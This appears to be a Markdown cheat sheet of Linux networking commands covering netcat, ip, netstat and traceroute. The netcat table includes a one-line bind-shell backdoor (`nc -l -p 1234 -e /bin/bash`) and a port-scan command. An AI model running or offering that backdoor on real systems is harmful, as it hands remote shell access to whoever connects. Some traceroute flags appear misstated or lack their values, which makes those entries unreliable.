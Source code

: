 # Commands and Utilites

## NETCAT

**Universal utility for network connection in Unix and similar operating systems**

***

| Command                                               | Explanation                                                                                            |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| `nc host port`                                        | Connects to the host on the specified port                                                             |
| `nc -l -p port`                                       | Starts nc in listener mode on the specified port                                                       |
| `nc -z host {port-range}`                             | Basic port scanner                                                                                     |
| `nc -v host port`                                     | Get banner                                                                                             |
| `nc -l -p local_port -c 'nc remote_host remote_port'` | Configures a basic proxy where it listens for a specific local port and forwards it to a remote server |
| `nc -l -p 1234 -e /bin/bash`                          | Simple backdoor                                                                                        |

***

## IP

**Linux command to manage ІР. Older brother of ifconfig**

***

| Command      | Explanation         |
| ------------ | ------------------- |
| `ip addr`    | Shows all addresses |
| `ip -4 addr` | Shows IPv4 address  |
| `ip -6 addr` | Shows IPv6 address  |

***

## NETSTAT

**The netstat command lets you discover which sockets are connected and which sockets are listening. Meaning, it tells you which ports are in use and which processes are using them. It can show you routing tables and statistics about your network interfaces and multicast connections.This command is liable to produce a long listing, so we pipe it into less.**

***

| Syntax                            | Explanation                                                                                                                     |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| `netstat -at \| less`             | Looks for all tcp sockets                                                                                                       |
| `netstat -au \| less`             | Looks for all udp sockets                                                                                                       |
| `netstat -l \| less`              | Looks for all listening sockets. We could combine with -t to make netstat -lt or -lu to search for listening tcp or udp sockets |
| `netstat -p -at`                  | Shows all TCP sockets with PID                                                                                                  |
| `sudo netstat -anp \| grep ":22"` | Finds 22 port target string                                                                                                     |
| `sudo netstat -i`                 | Show network interfaces                                                                                                         |
| `sudo netstat -r`                 | Display kernel routing table                                                                                                    |

***

## TRACEROUTE

**For understanding traceroute you should know what is TCP/IP suite of protocols, especially what is UDP or User Datagram Protocol. There are a lot of headers but we need TTL (Time to Live). It is a count how much routers, gateways could possibly pass this packet, each router decrements 1. When TTL reaches 0, router sends ICMP "Time Exceeded" message back to the origin of the packet. So traceroute first sends packet with ttl 1, then 2, then 3 etc. until destination is reached or maximum number of hops (30 by default) is tested.**

| Syntax             | Explanation                                   |
| ------------------ | --------------------------------------------- |
| `traceroute -l IP` | Use ICMP Echo requests instead of UDP packets |
| `traceroute -n IP` | Do not resolve hostnames                      |
| `traceroute -q IP` | Set the number of queries per hop             |
| `traceroute -m IP` | Set the maximum hop count                     |

***
